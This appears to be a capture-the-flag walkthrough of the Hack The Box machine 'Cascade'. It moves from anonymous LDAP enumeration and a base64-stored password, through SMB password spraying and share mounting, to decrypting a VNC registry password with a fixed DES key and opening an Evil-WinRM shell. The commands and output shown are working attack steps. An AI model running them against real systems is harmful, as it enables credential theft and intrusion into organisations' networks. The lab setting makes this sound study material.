

# 10 - LDAP


# Username Enumeration
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ ldapsearch -x -h 10.10.10.182 -D '' -w '' -b 'OU=Users,OU=UK,DC=cascade,DC=local' | grep sAMAccountName:
sAMAccountName: s.smith
sAMAccountName: r.thompson
sAMAccountName: j.wakefield
sAMAccountName: s.hickson
sAMAccountName: j.goodhand
sAMAccountName: a.turnbull
sAMAccountName: e.crowe
sAMAccountName: b.hanson
sAMAccountName: d.burman
sAMAccountName: arksvc
sAMAccountName: util
sAMAccountName: BackupSvc
sAMAccountName: j.allen
sAMAccountName: i.croft
```


* -x    Simple authentication
* -h    LDAP server
* -D    bind DN
* -w    bind password (for simple authentication)
* -b    base dn for search


# A unique key in ldap



```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ ldapsearch -x -h 10.10.10.182 -D '' -w '' -b 'OU=Users,OU=UK,DC=cascade,DC=local'  | grep cascadeLegacy
cascadeLegacyPwd: clk0bjVldmE=
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ echo -n clk0bjVldmE= |base64 -d
rY4n5eva
```


# Password spray
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ cme smb 10.10.10.182 -u user.lst  -p pass.lst  --continue-on-success
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.smith:CASC-DC1 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\r.thompson:CASC-DC1 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
```


* r.thompson:rY4n5eva

# Shares


```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ cme smb 10.10.10.182 -u  r.thompson  -p rY4n5eva  --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
```


# Mount the shares
```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt]
└──╼ $ sudo mount -t cifs -o user='r.thompson',pass='rY4n5eva' //10.10.10.182/SYSVOL /mnt/cascade/SYSVOL/
┌─[user@parrot]─[10.10.14.18]─[/mnt]
└──╼ $ sudo mount -t cifs -o user='r.thompson',pass='rY4n5eva' //10.10.10.182/Data /mnt/cascade/Data/
┌─[user@parrot]─[10.10.14.18]─[/mnt]
└──╼ $ sudo mount -t cifs -o user='r.thompson',pass='rY4n5eva' //10.10.10.182/NETLOGON /mnt/cascade/NETLOGON
┌─[user@parrot]─[10.10.14.18]─[/mnt]
└──╼ $ sudo mount -t cifs -o user='r.thompson',pass='rY4n5eva' //10.10.10.182/print\$ /mnt/cascade/print/

```


# Files
```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade]
└──╼ $ find . -type f -print  2>/dev/null | grep -v '/print/'
./Data/IT/Email Archives/Meeting_Notes_June_2018.html
./Data/IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log
./Data/IT/Logs/DCs/dcdiag.log
./Data/IT/Temp/s.smith/VNC Install.reg
./NETLOGON/MapAuditDrive.vbs
./NETLOGON/MapDataDrive.vbs
./SYSVOL/cascade.local/Policies/{2906D621-7B58-40F1-AA47-4ED2AEF29484}/GPT.INI
./SYSVOL/cascade.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI
./SYSVOL/cascade.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
./SYSVOL/cascade.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol
./SYSVOL/cascade.local/Policies/{322FEA29-156D-4476-8A06-1935A3525C1C}/GPO.cmt
./SYSVOL/cascade.local/Policies/{322FEA29-156D-4476-8A06-1935A3525C1C}/GPT.INI
./SYSVOL/cascade.local/Policies/{322FEA29-156D-4476-8A06-1935A3525C1C}/User/Scripts/scripts.ini
./SYSVOL/cascade.local/Policies/{4026EDF8-DBDA-4AED-8266-5A04B80D9327}/GPT.INI
./SYSVOL/cascade.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI
./SYSVOL/cascade.local/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
./SYSVOL/cascade.local/Policies/{820E48A7-D083-4C2D-B5F8-B24462924714}/GPT.INI
./SYSVOL/cascade.local/Policies/{D67C2AD5-44C7-4468-BA4C-199E75B2F295}/GPT.INI
./SYSVOL/cascade.local/scripts/MapAuditDrive.vbs
./SYSVOL/cascade.local/scripts/MapDataDrive.vbs
```


# Meeting_Notes_June_2018.html
```
<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). </p>
```


* TempAdmin:(password is the same as the normal admin account password)

# VNC password
```bash
┌─[user@parrot]─[10.10.14.18]─[/mnt/cascade]
└──╼ $ cat   './Data/IT/Temp/s.smith/VNC Install.reg' | iconv  -f UTF-16LE -t UTF8  | grep -i password
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

# [Decrypt the password](https://github.com/frizb/PasswordDecrypts)
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
```

# New Credentials 

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ cme smb 10.10.10.182 -u user.lst  -p pass.lst
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.smith:CASC-DC1 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.smith:0ADEL STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.smith:TempAdmin STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
```

* s.smith:sT333ve2

# Shell
```powershell
┌─[user@parrot]─[10.10.14.18]─[~/htb/cascade]
└──╼ $ evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> 
```